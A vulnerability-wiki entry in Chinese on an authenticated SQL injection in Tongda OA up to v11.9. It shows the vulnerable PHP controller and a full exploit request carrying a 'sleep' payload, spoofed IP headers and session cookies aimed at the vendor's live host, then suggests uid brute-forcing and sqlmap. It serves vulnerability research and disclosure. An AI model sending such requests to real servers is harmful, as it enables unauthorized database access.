





# 通达OA upsharestatus id SQL 注入

## 条目说明

- 对象与具体问题：通达OA；upsharestatus id SQLi
- 版本、配置及部署条件：≤11.9声明/11.9实验
- 认证与权限前提：登录且uid匹配当前SESSION
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 源码支持uid分支条件应保留
- 根因字符串where拼接，黑名单不是充分修复
- update state和延时有副作用
- 缺修复build

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

### 漏洞影响

```
通达OA <=  v11.9
```

### 环境搭建

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装




### 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```php
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```




其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**




所以这里就出现了 id 参数存在注入的情况，请求包如下

```http
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

> 请求长度说明：原资料 Content-Length 为 36；静态长度已移除，应由客户端根据最终请求体的字节数生成。

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15




如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
